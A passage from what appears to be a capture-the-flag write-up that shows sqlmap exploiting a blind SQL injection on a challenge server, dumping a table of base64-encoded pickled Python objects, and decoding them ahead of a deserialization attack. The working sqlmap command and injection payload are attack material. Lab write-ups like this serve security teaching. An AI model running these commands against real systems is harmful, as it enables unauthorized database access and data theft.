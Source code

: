 Enumerated the entire db:

>[!warning]
>Sometimes sqlmap is unable to extract serialized data and just return a void column. Use the `--no-cast` o `--hex` flags for those cases.

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
Database: <current>
Table: elves
[3 entries]
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| id | data                                                                                                                                     |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==             |
| 2  | gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=                     |
| 3  | gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4= |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
...
```

## SQL Injection + Arbitrary Deserialization

Discovered some python objects inside the DB:

```bash
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==' | base64 -d
Packing giftsidNub.                                                                                                                                                                                                                         
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4=' | base64 -d
__main__Elf)}(nameSnowactivityooking at the naughty listidNub.                                                                                                                                                                              
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=' | base64 -d
Helping SantaidNub. 

```
